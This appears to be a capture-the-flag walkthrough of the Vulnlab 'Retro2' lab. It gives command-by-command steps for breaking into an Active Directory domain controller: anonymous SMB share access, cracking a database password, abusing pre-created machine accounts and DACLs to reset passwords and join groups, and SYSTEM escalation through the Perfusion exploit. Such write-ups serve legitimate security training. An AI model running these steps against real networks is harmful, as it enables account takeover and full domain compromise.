


Vulnlab : Retro2 Easy
In this lab, we will use pre-created computer accounts, abuse DACLs, and exploit an unpatched vulnerability to elevate our privileges.
Reconnaissance
Nmap scan report for 10.10.90.89
Host is up (0.025s latency).
Not shown: 984 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Microsoft DNS 6.1.7601 (1DB15F75) (Windows Server 2008 R2 SP1)
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-15 16:00:43Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: RETRO2)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
3389/tcp open ssl/ms-wbt-server?
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49158/tcp open msrpc Microsoft Windows RPC
Service Info: Host: BLN01; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
Ok, we are dealing with an Active Directory using a domain controller running Windows Server 2008 R2. I think there must already be CVEs for this version allowing us to quickly pwn the lab, but that’s probably not the intended path.
So we will first enumerate the SMB shares.
[Oct 15, 2025 - 18:07:43 (CEST)] exegol-vulnlab /workspace # nxc smb $IP -u '' -p '' --shares
SMB 10.10.90.89 445 BLN01 [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB 10.10.90.89 445 BLN01 [+] retro2.vl\:
SMB 10.10.90.89 445 BLN01 [-] Error enumerating shares: STATUS_ACCESS_DENIED
[Oct 15, 2025 - 18:07:49 (CEST)] exegol-vulnlab /workspace # nxc smb $IP -u 'test' -p '' --shares
SMB 10.10.90.89 445 BLN01 [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB 10.10.90.89 445 BLN01 [+] retro2.vl\test: (Guest)
SMB 10.10.90.89 445 BLN01 [*] Enumerated shares
SMB 10.10.90.89 445 BLN01 Share Permissions Remark
SMB 10.10.90.89 445 BLN01 ----- ----------- ------
SMB 10.10.90.89 445 BLN01 ADMIN$ Remote Admin
SMB 10.10.90.89 445 BLN01 C$ Default share
SMB 10.10.90.89 445 BLN01 IPC$ Remote IPC
SMB 10.10.90.89 445 BLN01 NETLOGON Logon server share
SMB 10.10.90.89 445 BLN01 Public READ
SMB 10.10.90.89 445 BLN01 SYSVOL Logon server share
SMB null session is enabled, which allows us to read the Public share. In this share, we have an MS Access file. After trying to open it with MS Access, we can see that it is password protected. Fortunately, there is a tool that allows us to extract the hash of this password and then crack it with John.
[Oct 15, 2025 - 19:00:47 (CEST)] exegol-vulnlab /workspace # python2 office2john.py staff.accdb| tee staff_hash
staff.accdb:$office$*2013*100000*256*16*5736cfcbb054e749a8f303570c5c1970*1ec683f4d8c4e9faf77d3c01f2433e56*7de0d4af8c54c33be322dbc860b68b4849f811196015a3f48a424a265d018235
[Oct 15, 2025 - 19:04:48 (CEST)] exegol-vulnlab /workspace # john staff_hash
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 128/128 SSE2 4x / SHA512 128/128 SSE2 2x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:01:13 DONE 1/3 (2025-10-15 19:06) 0g/s 192.0p/s 192.0c/s 192.0C/s Sstaff.accdb1902..Astaff1900
Proceeding with wordlist:/opt/tools/john/run/password.lst
Enabling duplicate candidate password suppressor
class08 (staff.accdb)
1g 0:00:02:05 DONE 2/3 (2025-10-15 19:07) 0.007968g/s 195.6p/s 195.6c/s 195.6C/s coolkid..love27
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
strLDAP = "LDAP://OU=staff,DC=retro2,DC=vl"
strUser = "retro2\ldapreader"
strPassword = "ppYaVcB5R"
Exploitation
We now have credentials for the ldapreader user. We will use this user to find a path to become admin with bloodhound.

We can see that if we can gain access to the FS01$ machine account for example, we can then abuse the GenericWrite ACE to modify the password of the ADMWS01 machine, which will then allow us to abuse AddMember to add the ldapreader user to the SERVICES group, which is a member of the REMOTE DESKTOP USERS group.
With an LDAP query, we can see that the local groups (built-in AD groups) on the domain controller contain the RDP group, which means that if we control the RDP group, we can connect via RDP to the domain controller.
[Oct 15, 2025 - 21:39:23 (CEST)] exegol-vulnlab /workspace # nxc smb $IP -u 'ldapreader' -p 'ppYaVcB5R' --local-groups
SMB 10.10.109.196 445 BLN01 [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB 10.10.109.196 445 BLN01 [+] retro2.vl\ldapreader:ppYaVcB5R
SMB 10.10.109.196 445 BLN01 [*] Enumerating with SAMRPC protocol
SMB 10.10.109.196 445 BLN01 [+] Enumerated local groups
SMB 10.10.109.196 445 BLN01 549 - Server Operators
SMB 10.10.109.196 445 BLN01 548 - Account Operators
SMB 10.10.109.196 445 BLN01 554 - Pre-Windows 2000 Compatible Access
SMB 10.10.109.196 445 BLN01 557 - Incoming Forest Trust Builders
SMB 10.10.109.196 445 BLN01 560 - Windows Authorization Access Group
SMB 10.10.109.196 445 BLN01 561 - Terminal Server License Servers
SMB 10.10.109.196 445 BLN01 544 - Administrators
SMB 10.10.109.196 445 BLN01 545 - Users
SMB 10.10.109.196 445 BLN01 546 - Guests
SMB 10.10.109.196 445 BLN01 550 - Print Operators
SMB 10.10.109.196 445 BLN01 551 - Backup Operators
SMB 10.10.109.196 445 BLN01 552 - Replicator
SMB 10.10.109.196 445 BLN01 555 - Remote Desktop Users
SMB 10.10.109.196 445 BLN01 556 - Network Configuration Operators
SMB 10.10.109.196 445 BLN01 558 - Performance Monitor Users
SMB 10.10.109.196 445 BLN01 559 - Performance Log Users
SMB 10.10.109.196 445 BLN01 562 - Distributed COM Users
SMB 10.10.109.196 445 BLN01 568 - IIS_IUSRS
SMB 10.10.109.196 445 BLN01 569 - Cryptographic Operators
SMB 10.10.109.196 445 BLN01 573 - Event Log Readers
SMB 10.10.109.196 445 BLN01 574 - Certificate Service DCOM Access
SMB 10.10.109.196 445 BLN01 517 - Cert Publishers
SMB 10.10.109.196 445 BLN01 553 - RAS and IAS Servers
SMB 10.10.109.196 445 BLN01 571 - Allowed RODC Password Replication Group
SMB 10.10.109.196 445 BLN01 572 - Denied RODC Password Replication Group
SMB 10.10.109.196 445 BLN01 1102 - DnsAdmins
Let’s check if we can control the FS01 computer account, and indeed we can see that it has the pre-created computer attribute, which means its password is the machine name in lowercase.
[Oct 15, 2025 - 21:43:13 (CEST)] exegol-vulnlab /workspace # nxc smb $IP -u 'fs01$' -p 'fs01' --shares
SMB 10.10.109.196 445 BLN01 [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB 10.10.109.196 445 BLN01 [-] retro2.vl\fs01$:fs01 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
We cannot use getTGT to obtain a TGT because we are on a 2008 functional level domain. So we will simply change the password of FS01.
[Oct 15, 2025 - 21:53:36 (CEST)] exegol-vulnlab /workspace # python rpcchangepwd.py retro2.vl/fs01\$:fs01@$IP -newpass Test123!
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Password was changed successfully.
Once that’s done, we can now modify the password of the ADMWS01 machine by abusing GenericWrite.
[Oct 15, 2025 - 22:05:29 (CEST)] exegol-vulnlab /workspace # net rpc password 'ADMWS01$' Test123! -U retro2.vl/'fs01$'%Test123! -S $IP
Then by abusing AddMember, we can add the ldapreader user to the SERVICES group.
[Oct 15, 2025 - 22:06:28 (CEST)] exegol-vulnlab /workspace # bloodyAD --host $IP -d retro2.vl -u 'ADMWS01$' -p 'Test123!' add groupMember 'SERVICES' 'ldapreader'
[+] ldapreader added to SERVICES
Now we can connect via RDP to the domain controller BLN01.
Privilege Escalation
Once connected via RDP to the domain controller, we can look for privilege escalation. After some research, I found these two blog articles: https://itm4n.github.io/windows-registry-rpceptmapper-eop/ https://itm4n.github.io/windows-registry-rpceptmapper-exploit/#in-the-previous-episode
We will therefore use the Perfusion tool to become SYSTEM on the domain controller. This tool exploits a vulnerability on Windows 7 and Windows Server 2008 that allows adding a Performance key for the DNSCache and RpcEtMapper services. This key then allows loading a DLL that will execute a cmd in the WMI user context.
You can compile the tool with Visual Studio 2019.
Once that’s done, we create a small Python server to deliver the tool to the domain controller and then use it.


Boom! Now we can get the flag!
Thanks for reading!